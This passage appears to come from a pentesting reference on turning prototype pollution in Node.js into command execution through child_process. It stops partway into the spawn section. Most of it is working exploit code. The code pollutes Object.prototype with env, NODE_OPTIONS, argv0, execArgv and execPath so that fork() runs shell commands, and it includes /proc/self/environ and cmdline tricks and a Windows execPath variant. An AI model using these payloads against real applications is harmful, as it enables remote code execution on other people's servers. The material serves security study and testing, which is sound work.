 ```
If it's **not** executing **node**, you need to find how you could **alter the execution** of whatever it's executing **with environment variables** and set them.

The **other** techniques **work** without this requirement because it's **possible to modify** **what is executed** via prototype pollution. (In this case, even if you can pollute `.shell`, you won't pollute that is being executed).



**`fork` exploitation**


```javascript
// environ trick - working
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
b = {}
b.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/fork-environ').toString())//",
}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = fork("something")

// cmdline trick - working
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
p = {}
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/fork-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = fork("something")

// stdin trick - not working
// Not using stdin

// execArgv trick - working
// Only the fork method has this attribute
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
b = {}
b.__proto__.execPath = "/bin/sh"
b.__proto__.argv0 = "/bin/sh"
b.__proto__.execArgv = ["-c", "touch /tmp/fork-execArgv"]
var proc = fork("./a_file.js")

// Windows
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
b = {}
b.__proto__.execPath = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = fork("./a_file.js")
```
```



****`spawn` exploitation****


```javascript
// environ trick - working with small variation (shell and argv0)
// NOT working after kEmptyObject (fix) without options
const { spawn } = require("child_process")
p = {}
```